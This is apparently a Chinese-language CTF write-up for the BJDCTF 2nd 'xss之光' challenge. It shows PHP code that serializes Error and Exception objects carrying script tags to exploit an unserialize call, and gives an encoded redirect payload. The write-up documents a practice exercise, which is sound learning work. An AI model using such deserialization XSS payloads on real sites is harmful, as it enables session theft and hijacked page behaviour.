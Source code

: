 * # BJDCTF 2nd

* ## 0x01 xss之光

  关键词：xss，反序列化，php原生类

  打开界面，没有任何可利用信息，猜测为git泄露

  采用GitHack下载源码

  ```
  <?php
  $a = $_GET['yds_is_so_beautiful'];
  echo unserialize($a);
  ```

  发现`unserialize`函数但并没有pop链，考虑用php原生类进行反序列化xss攻击。

  调用__toString魔术方法的原生类：

  * Error（适用于php7）

    XSS（开启报错的情况下）

    ```
    <?php
    $a = new Error("<script>alert(1)</script>");
    $b = serialize($a);
    echo urlencode($b);
    ```

  * Exception（适用于php5、7版本）

    XSS（开启报错的情况下）

    ```
    <?php
    $a = new Exception("<script>alert(1)</script>");
    $b = serialize($a);
    echo urlencode($b);
    ```

  因而构造xss跳转完成xss攻击，payload：

  ```
  <?php
  $a = new Exception("<script>window.location.href = https://www.baidu.com</script>");
  $b = serialize($a);
  echo urlencode($b);
  ?>
  ```

  反序列化后成为：

  ```
  O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A61%3A%22%3Cscript%3Ewindow.location.href+%3D+https%3A%2F%2Fwww.baidu.com%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A34%3A%22C%3A%5Cphpstudy_pro%5CWWW%5Cxsspayload.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
  ```

  最终在cookie中获取flag

  ![bjd2-1](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/bjd2-1.png)
  

  
